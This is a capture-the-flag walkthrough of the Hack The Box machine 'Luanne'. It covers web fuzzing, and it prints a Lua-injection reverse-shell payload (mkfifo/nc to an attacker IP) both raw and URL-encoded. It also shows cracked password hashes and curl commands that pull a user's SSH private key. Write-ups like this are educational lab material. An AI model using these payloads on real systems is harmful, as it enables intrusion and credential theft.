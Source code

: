 ```yaml
---
layout: page
title: Luanne
description: Write-up
dropdown: HTB-BOXES
priority: 1
---
```

# Luanne Walkthrough
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68dcaeda-cf61-48b1-81df-3b50af1e1e63/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T212031Z&X-Amz-Expires=86400&X-Amz-Signature=dbcd74a0e70df071916f3b5829e6908e7810a2b0a601ab5e8b73336fbfb8017b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/64c7e259-9168-4229-9667-2595a8ddbe3a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T195051Z&X-Amz-Expires=86400&X-Amz-Signature=6e899b602e9231418485f298e07fb90c8d05390be5262e8817c037c988b418cd&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


### Let's start with the Web Page:

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4d331ad0-6ca7-4f1d-909f-84f926e8d56e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220747Z&X-Amz-Expires=86400&X-Amz-Signature=65b805dc8bf10b8ecc4d26e664344b6d9bee398bcc14798209258e3103428039&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3a02ba02-588c-4963-9dc7-24ea4943787e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220955Z&X-Amz-Expires=86400&X-Amz-Signature=cc099e62053f11be44e021d0cb5e4789522f0935ca106604f5f0521d40de01a3&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### I used ffuf for fuzzing luanne.htb/


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f6b5b7fb-096e-4093-8e4e-c60e9995e58e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221725Z&X-Amz-Expires=86400&X-Amz-Signature=8fc77eddae8de86bd36a0cf5c68b9a9fabfd4662dd30c88f17b2a0a8bed8094f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



* We got robots.txt

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6ab319aa-1ec4-4590-b79a-3a1c662e4592/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221840Z&X-Amz-Expires=86400&X-Amz-Signature=d5b1629ee14b8a6800c3adbee52baa8619ee207b69bb3ef4a574e9163fb2d6b0&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4cc16698-a933-4e1f-b8fe-93d90e352b09/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T222958Z&X-Amz-Expires=86400&X-Amz-Signature=671502ab015208afeb98b1e8115c50c54a76c79eac2badc5047ca95c6a2786ca&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/30d8f697-acbb-4e76-a9d3-f180eef28422/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223205Z&X-Amz-Expires=86400&X-Amz-Signature=54f272392356033508eb550b63db92bf354720ed6607b1ca1a05839ebf2b4a08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/97f1a229-81a0-4fc5-a5bd-a1563ef5d03a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223414Z&X-Amz-Expires=86400&X-Amz-Signature=1a4dc9c7f0f8694c1e8fa955301877b599fc83c7420080adeb386ce8f37a0d03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d25b6f67-0786-4f9a-a430-2037802b6cb9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T224449Z&X-Amz-Expires=86400&X-Amz-Signature=9ccb6b1fb1178961d4a5f681732eb4bd5fdec19c0ecd92531045733a69b1f4df&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b64544ff-c962-4820-89c7-87d16bae551d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T233833Z&X-Amz-Expires=86400&X-Amz-Signature=1c932c8959ac3359021f96e9a027d6478eb9e2d448f981ecb0da2266efb56c24&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/98100502-7a21-44e9-a307-71009920d1f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000029Z&X-Amz-Expires=86400&X-Amz-Signature=ba06437302ef5bb61103ad4745f4a1173b7f3ef368623bb14d2824626fb64d01&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**we got iamthebest**

## Enumerate luanne.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/81c7b723-f8c6-4c67-815a-cc6fb50b694e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000501Z&X-Amz-Expires=86400&X-Amz-Signature=dc8d5eac59120d22d8e2ce98cbbbe5c7972cea09e34d87d602ce2f98b9405707&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68cbe7e3-435c-4071-b0c2-362c4e020e4e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000734Z&X-Amz-Expires=86400&X-Amz-Signature=a44ed310321fbe5aa26f79c418f10a2cba6f2bdd49b10dfde7c7b76104cbdf03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/62151e89-8b1e-4410-81d0-576865571022/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000947Z&X-Amz-Expires=86400&X-Amz-Signature=0feb6997691ee9f8b4fb6bc2d50bde74b6fbf1879abab801c6ce75945912f2c4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/274bfca7-5dc2-4e22-829e-fc635a640a9f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T001005Z&X-Amz-Expires=86400&X-Amz-Signature=8eda012b3fa2de684229b9ed534e0dfe70be7b67d8d148d8b4beef47c8da1731&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/577680ad-0d62-4049-8807-06949f11b2bf/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T094912Z&X-Amz-Expires=86400&X-Amz-Signature=dc3af5a2ddd7f2616085ca6eb5b9a49d3f72286e038a5771c55efc9c4413f6a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/cc2830e1-d413-45e5-b2e4-b08f25dc5971/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104638Z&X-Amz-Expires=86400&X-Amz-Signature=24fa5d4156e6580b973a080a29bc407a275802c7282bbf4eb5fbe67b4de71d23&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/c4319954-c801-4fd4-be32-ae661b5395f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104907Z&X-Amz-Expires=86400&X-Amz-Signature=8ebcb5b89974c9bf25f1d1e439ae070680d0272aa7ca73600ed2902daf21e06a&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


## SSH connecting.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/39a3ea0a-a456-4cbc-85bb-f2a108f54ce1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T110437Z&X-Amz-Expires=86400&X-Amz-Signature=30bda8b984028e7110f3f303ac6734f2b6c3f81c73e493926d29435fc55ebee1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d4ce4df0-4220-4d4e-9ecd-9d80f5d439f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111708Z&X-Amz-Expires=86400&X-Amz-Signature=092e4423b90439f98569273f708bf73c7f3326654563b7268cdc2928b410450f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/df9e3cd8-2f09-4ac2-9d4a-de75132cf62f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111924Z&X-Amz-Expires=86400&X-Amz-Signature=adcbf5ffb0181c3da4216b859d3e234763e346959dfbe9e3ead20d0d453149e7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * we access to /webapi but no thing useful.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7e6784ef-44d6-4f6d-966b-fa043e7f028b/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112012Z&X-Amz-Expires=86400&X-Amz-Signature=234487128c019cc5bca0afed5d4355c31bc8a33b9ac6c36d8264b785be79deb4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **we access to /www and got another webapi_user.**
 
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0e656a1a-424f-45c4-99e4-1ee73d0a2379/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112121Z&X-Amz-Expires=86400&X-Amz-Signature=0979a19503435017e80de8bdb182cc4d32ff1aa4fb4a9df728d0cb02ae557d63&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/18e18677-6eb5-4bf0-8f8f-e47caec1a68a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114025Z&X-Amz-Expires=86400&X-Amz-Signature=4fb1cad83fb9853f3930e6cbccf4411e5eb4c2c4d2b058b6cc7abcba4345120f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9369b1ff-362e-42f6-920a-7a3eb88b5504/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114352Z&X-Amz-Expires=86400&X-Amz-Signature=1daca75835fcf2777e7d4cdb8368c74cba25ed9acaedeab2f328f86131c3de40&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

# RooTed
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()

